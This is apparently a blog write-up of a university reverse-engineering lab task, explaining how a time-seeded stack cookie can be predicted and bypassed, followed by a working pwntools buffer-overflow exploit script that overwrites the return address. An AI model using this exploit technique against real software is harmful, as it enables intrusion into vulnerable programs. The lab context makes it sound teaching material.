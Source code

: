 ```yaml
---
layout: post
title:  UNIBUC_RE_lab_5_task_3
image: /assets/img/UNIBUC_RE.jpg
date:   2022-09-01 16:39:01
tags:
- pwn
description: task 2 revamped to include a stack cookie
categories:
- UNIBUC RE
---
```


task 2 revamped to include a stack cookie

Watching the main function, there is no way we can bypass that stack cookie soo we have to see how it is generated.
![](/assets/img/2022-09-01-22-47-18.png)

We can also do that random also we are given the libc version so this is the way.
Other than that it's business as usual ( done exactly like the second task).
```
from pwn import *

from ctypes import *
libc = CDLL("libc.so.6")
libc.srand(libc.time(0))
io = process("./task3")
rnd = libc.rand()
io.sendline("a"*8+'\0' +35*'a'+p32(rnd)+8*'a'+'\xf6\x11\x40\x00\x00\x00\x00')
io.interactive()
```